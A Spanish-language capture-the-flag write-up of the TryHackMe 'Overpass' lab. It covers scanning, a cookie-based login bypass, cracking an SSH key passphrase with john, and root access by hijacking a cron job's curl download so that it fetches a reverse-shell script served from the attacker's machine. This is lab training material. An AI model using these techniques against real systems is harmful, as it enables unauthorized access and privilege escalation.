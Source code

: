 ```yaml
---
title: "Overpass1 Writeup - Try-Hack-Me"
date: 2023-09-09
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/Overpass1.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Overpass1 banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### hacemos fuzzing con gobuster

![img](/assets/img/imagenes/2023-11-01_21-14.png)

### encontramos varios directorios interesantes asi que aprobar.
directorios interesantes:
```python
	/aboutus
	/admin
	/downloads
```

### en el subdirectorio admin encontramos un pagina de login la cual no parece ser vulnerable a sqli 

![img](/assets/img/imagenes/2023-11-03_10-35.png)

### vamos a mirar el codigo fuente en busca de mas informacion

![img](/assets/img/imagenes/2023-11-03_10-38.png)

### vemos que la pagina esta haciendo un llamado a tres script diferentes, revisando en cada uno de ellos podemos encontrar que el script /login.js alberga una cookie de session

![img](/assets/img/imagenes/2023-11-03_10-43.png)

### vamos a cambiar nuestra cookie por "SessionToken" para intentar acceder al login. esto lo haremos de la siguiente manera:

```python
	-click derecho
	 
	-inspeccionar
	 
	-storage
	
	-liego a +
	
	-editamos nuestro nombre de cookie por el que hemos conseguido
	
	-finalmente recargamos la pagina
```
![img](/assets/img/imagenes/2023-11-03_11-08.png)

### hemos baypaseado el login con una cookie que hemos encontrado lo que nos permite ver una informacion valiosa.

![img](/assets/img/imagenes/2023-11-03_11-15.png)

### ademas de una id_rsa encontramos un usuario llamado james. asi que podemos utilizar estas credenciales para  intentar acceder via SSH.

![img](/assets/img/imagenes/2023-11-03_11-25.png)

### parece que necesitamos la contraseña para poder utilizar el id_rsa. asi que usaremos ssh2john de la siguiente manera.

```python
ssh2john id_rsa > id_rsa.hash
```

### ahora usaremos john para intentar conseguir el passdword
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

james13          (id_rsa)     

1g 0:00:00:00 DONE (2023-11-03 11:35) 16.66g/s 223200p/s 223200c/s 223200C/s pink25..cheergirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### conseguimos james13 como passdword para el id_rsa asi que vamos a probar con esto.

![img](/assets/img/imagenes/2023-11-03_11-42.png)

### conseguimos dos archivos. uno de ellos nos da informacion sobre un programa llamado overpass que alberga las contraseñas asi que vamos a buscar ese programa con el comando 
```c
	find / -name "overpass" 2>/dev/null
```

### parece que no conseguimos nada. vamos a buscar las tareas crontab

![img](/assets/img/imagenes/2023-11-03_13-11 1.png)

### tenemos una tarea crontab que se ejecuta cada minuto de cada dia de cada mes como el usuario root. esto podemos notarlo con los * que responden a cada opcion

este crontab hace un llamado con el comando curl sobre overpass.thm/downloads/src/buildscript.sh vamos a aprovechar esto para editar el /etc/hosts y de esta manera hacer que el overpass.thm apunte a nuestra maquina atacante.
![img](/assets/img/imagenes/2023-11-03_13-19.png)

### ok sabemos que la tarea crontab hace un curl sobre  overpass.thm/downloads/src/buildscript.sh hemos modificado el /etc/hosts para que apunte a nuestra maquina. ahora respetando la ruta exacta, tal cual se ejecuta en la tarea crontab nos montaremos un servidor en python para poder ejecutar esta tarea desde nuestra maquina atacante.

```python
	-creados una carpeta llamada 'downloads' dentro de esta carpeta creamos otra llamada 'src'
	y finalmente creamos un archivo llamado "buildscript.sh" 
	este archivo va a contener nuestra reverse shell
```

![img](/assets/img/imagenes/2023-11-03_13-26.png)
en  este caso usaremos la shell mas basica de todas en bash. 

### es importante saber que el curl hace el llamado a  overpass.thm/downloads/src/buildscript.sh en ese orden. por lo que debemos estar por detras de la carpeta  "downloads'' para que se ejecute correctamente.

ahora montamos un servidor en python de la siguiente manera:
```python 
	python3 -m http.server 80
```
esperamos un minuto mas o menos para que la tarea crontab se ejecute de nuevo
![img](/assets/img/imagenes/2023-11-03_13-33.png)
por otro lado estaremos escuchando con netcat
```python 
	nc -lvnp 444
```

![img](/assets/img/imagenes/2023-11-03_13-37.png)
### WE ARE ROOT
